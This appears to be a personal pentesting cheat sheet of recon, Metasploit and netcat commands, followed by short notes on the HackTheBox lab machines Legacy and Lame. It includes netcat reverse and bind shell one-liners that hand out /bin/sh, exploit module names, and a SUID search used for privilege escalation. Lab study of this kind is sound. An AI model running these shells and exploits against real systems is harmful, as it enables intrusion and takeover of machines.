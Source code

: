 ### Host files from current dir 
` python -m SimpleHttpServer 8080 `
 
### enable postgress for faster msf startup 
systemctl enable postgresql

### python tools for network 
https://github.com/SecureAuthCorp/impacket

### Given a string, cut at delimiter ( space) and take 4th field as a result
cut -d " " -f 4  

## Recon

### Website tech identification
whatweb - Kali cli tool for identifying site ( better than most)
Wappalyzer - extension on browser

### netdiscover - arp in the network

netdiscover -r 192.168.88.0/24

### nmap
-sS - "Stealh scan" (not really , just syn, synack and RST - no sessions established) 
nmap -sS 192.168.88.128
nmap -T4 -p- -A
-p- - all ports  ( default is top 1000 ports) ;   -A - scan everything , version, OS, fingerprint

### SMB (and metasploit workflow)

msfconsole
search smb 
use auxiliary/scanner/smb/smb_version 
set RHOSTS 192.168.88.128
run

### nice to knows 
dpkg -i downloaded_package.deb  # install a package

### reverse shell ( just like pentestmonkey )
nc 192.168.1.1 4444 -e /bin/sh        --->   nc -lvp 4444

### bind shell 
nc 192.168.1.1 4444     ---->  nc -lvp 4444 -e /bin/sh

### Foxyproxy productivity 
use foxyproxy addon and add burpsuite settings to it. easy switching 


## Legacy
nmap -sS -p- 10.10.10.4 
nmap -A -p139,445,3389 10.10.10.4
nmap --script vuln -p445 10.10.10.4    ( looked at write-up for this to scan for vulns )
Find MS08-067(works) and  ms17-010(doesnt work)   Eternalblue.
search -f user.txt    , same for root. gg

## Lame
nmap --script vuln -p3632 10.10.10.3
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
distcc indicated as vulnerable, msf unix/misc/distcc_exec gives shell
find / -user root -perm -4000 -print 2>/dev/null      ( find binaries with root privs) 
elevate privileges with nmap ( should learn something new instead...)
https://pentestlab.blog/category/privilege-escalation/  

